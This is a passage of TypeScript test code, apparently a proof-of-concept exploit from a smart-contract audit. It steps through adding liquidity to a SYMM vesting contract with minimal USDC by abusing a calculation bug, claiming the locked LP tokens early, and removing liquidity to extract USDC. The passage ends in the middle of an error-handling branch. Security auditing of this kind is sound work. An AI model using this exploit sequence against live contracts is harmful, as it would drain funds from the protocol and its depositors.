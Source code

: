 ```tsx
			const userUsdcBalanceBefore = await erc20.balanceOf(await user1.getAddress())
			console.log("User USDC balance before:          ", userUsdcBalanceBefore.toString())
			
			// STEP 1: Add liquidity with minimal USDC (exploit calculation bug)
			console.log("\n----- STEP 1: Add Liquidity -----")
			await symmVesting.connect(user1).addLiquidity(symmAmount, minLpAmount, quotedUsdcAmount * BigInt(2))
			
			// Verify USDC spent
			const userUsdcAfterDeposit = await erc20.balanceOf(await user1.getAddress())
			const usdcSpent = userUsdcBalanceBefore - userUsdcAfterDeposit
			console.log("USDC spent on liquidity:           ", usdcSpent.toString())
			
			// Verify LP tokens received in vesting
			const lpTokensLocked = await symmVesting.getLockedAmountsForToken(await user1.getAddress(), poolAddress)
			console.log("LP tokens locked in vesting:       ", lpTokensLocked.toString())
			
			// Get penalty receiver initial balance
			const penaltyReceiverAddr = await symmVesting.lockedClaimPenaltyReceiver()
			const penaltyReceiverLpBefore = await lpTokenContract.balanceOf(penaltyReceiverAddr)
			console.log("Penalty receiver LP before:        ", penaltyReceiverLpBefore.toString())
			
			// STEP 2: Claim locked LP tokens with 50% penalty (no waiting)
			console.log("\n----- STEP 2: Claim Locked LP Tokens with Penalty -----")
			
			// *** FIXED APPROACH: Use percentageByAmount method to avoid InvalidAmount error ***
			console.log("Using claimLockedTokenByPercentage to claim 100% of locked tokens")
			await symmVesting.connect(user1).claimLockedTokenByPercentage(poolAddress, e(1)) // Claim 100%
			
			// Verify user received LP tokens (should be ~50%)
			const userLpBalance = await lpTokenContract.balanceOf(await user1.getAddress())
			console.log("LP tokens received (after penalty): ", userLpBalance.toString())
			
			// Verify penalty receiver got other 50%
			const penaltyReceiverLpAfter = await lpTokenContract.balanceOf(penaltyReceiverAddr)
			const penaltyAmount = penaltyReceiverLpAfter - penaltyReceiverLpBefore
			console.log("LP tokens sent to penalty receiver:", penaltyAmount.toString())
			console.log("Penalty percentage:                ", (Number(penaltyAmount) / (Number(penaltyAmount) + Number(userLpBalance)) * 100).toFixed(2) + "%")
			
			// STEP 3: Remove liquidity to extract USDC
			console.log("\n----- STEP 3: Remove Liquidity -----")
			
			// Approve router to use LP tokens
			await lpTokenContract.connect(user1).approve(routerAddress, userLpBalance)
			
			try {
				// Use the appropriate method for your router interface
				// Option 1: Standard removeLiquidity method
				await routerContract.connect(user1).removeLiquidity(
				  poolAddress,
				  userLpBalance,
				  0,  // Min SYMM out 
				  0,  // Min USDC out
				  await user1.getAddress()
				)
				
				console.log("Liquidity removed successfully using removeLiquidity")
			} catch (error) {
				console.log("Failed with standard removeLiquidity, trying exitPool...")
				
```